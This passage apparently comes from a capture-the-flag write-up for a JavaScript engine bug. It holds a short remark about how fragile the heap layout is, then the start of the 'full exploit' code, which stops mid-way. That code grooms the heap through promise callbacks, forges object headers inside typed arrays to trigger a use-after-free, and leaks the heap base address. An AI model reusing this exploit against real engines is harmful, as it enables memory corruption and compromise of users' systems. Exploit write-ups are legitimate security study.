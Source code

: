 Something that I've just found out at the time of writing this writeup and commenting my exploit is that even writing too many comments in the exploit code can mess up the heap layout and make the exploit not work. This is probably expected because the JS source code seemed to get allocated on the heap as well, so changing the source code size too much might have effects on the heap layout and break the exploit. Basically, it's very fragile but at least it's deterministic :)

## Full exploit

And the full final exploit code:

```js
var arr = new Uint32Array(0x140);
var str = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ";
var uaf_arr;
var objs;

async function fn1() {
	console.log("fn1");
	return arr;
}

async function fn2() {
	console.log("fn2");
	return str;
}

fn1().then(() => {
	fn1().then(() => {
		objs = [];
		for (let i = 0; i < 6; i++) {
			objs.push({a: 1});
		}

		uaf_arr = new Uint32Array(18);

		uaf_arr[0] = 10;
		uaf_arr[1] = 0x001b0d00;
		uaf_arr[0x10] = 0x10000000;

		fn2().then(() => {
			fn2().then(() => {
				for (let i = 0; i < 6; i++) {
					objs.push({a: 1});
				}

				var uaf_str_arr = new Uint32Array(18);

				uaf_str_arr[0] = 2;
				uaf_str_arr[1] = 0x10000000;
				uaf_str_arr[2] = 0x497f93b1;
				uaf_str_arr[3] = 0x4b;

				const read_dword = (offset) => {
					let result = 0;
					for (let i = 3; i >= 0; i--) {
						result = (result << 8) | str.charCodeAt(offset + i);
					}
					return result;
				};

				let heap_base_high = read_dword(0x54);
				let heap_base_low = read_dword(0x50) - 0xd60;
				console.log(heap_base_high.toString(16));
				console.log(heap_base_low.toString(16));
```